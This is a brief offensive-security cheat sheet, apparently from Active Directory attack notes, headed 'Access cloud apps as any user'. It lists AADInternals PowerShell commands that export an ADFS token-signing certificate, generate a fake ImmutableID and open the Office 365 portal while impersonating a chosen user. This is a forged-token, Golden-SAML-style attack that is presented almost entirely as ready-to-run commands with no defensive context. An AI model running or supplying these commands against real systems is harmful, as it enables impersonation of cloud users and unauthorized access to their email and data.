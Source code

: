 #### Access cloud apps as any user
```
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

### With DA privileges on-prem, it is possible to create ImmutableID of cloud only users!
#### Create a realistic ImmutableID
```
[System.Convert]::ToBase64String((New-Guid).tobytearray())
```

#### Export the token signing certificate
```
Import-Module .\AADInternals.psd1
Export-AADIntADFSSigningCertificate
```

#### Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified 
```
Open-AADIntOffice365Portal -ImmutableID pwrtlmsicU+5tgCUgHx2tA== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
